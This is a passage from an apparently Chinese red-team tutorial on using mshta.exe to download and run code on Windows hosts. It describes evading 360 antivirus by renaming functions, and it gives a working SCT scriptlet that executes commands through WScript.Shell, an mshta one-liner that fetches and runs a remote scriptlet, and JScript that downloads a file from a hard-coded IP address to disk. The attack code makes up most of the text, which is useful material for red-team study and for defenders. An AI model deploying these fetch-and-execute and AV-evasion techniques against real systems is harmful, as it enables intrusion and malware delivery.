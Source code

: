 该脚本在第一次测试中没有被360杀，不过在后续测试中被360杀了，初步认为是被360上传到云端标记了，简单做了一下代码的修改，例如将function的名字进行修改，又可以绕过了。

![image-20210902152309710](../_img/image-20210902152309710-4138597.png)

在红队攻防中，建议修改第二种代码来进行绕过。



## mshta下载文件

mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件，我们可以在本地构建hta文件，之后通过目标主机的mshta来远程下载并执行。

mshta支持三种方式来获取hta文件，分别是本地的文件系统、远程HTTP以及UNC路径。远程HTTP和UNC路径的好处在于不用文件落地。



以下是我们执行命令的文件，主要是利用wscript.shell来执行命令

```html
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```

将以上脚本保存并放到服务器上并执行命令，就能弹出一个计算器。

```
mshta.exe javascript:a=(GetObject("script:http://example/m.sct")).Exec();close();
```

同样的hta支持jscript的函数来执行操作，jscript的函数基本上跟vbscript一模一样，主要也是通过Scripting.FileSystemObject和adodb.stream来执行下载的任务，不过这里面有一个区别，jscript的FileSystemObject只能操作非二进制文件，也就是说，我们的exe文件不能通过FileSystemObject来进行下载。

以下是我们下载非二进制的脚本：

```html
<HTML>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="jscript">
var url = 'http://45.32.99.159:443/1.txt';
var path = 'c:\\users\\public\\1.txt';

var objXML = new ActiveXObject("Microsoft.XMLHTTP");
objXML.open('GET',url,false);
objXML.send()

var fso = new ActiveXObject("Scripting.FileSystemObject");
var a = fso.CreateTextFile(path, true);
a.write(objXML.responseText);
a.close();
```
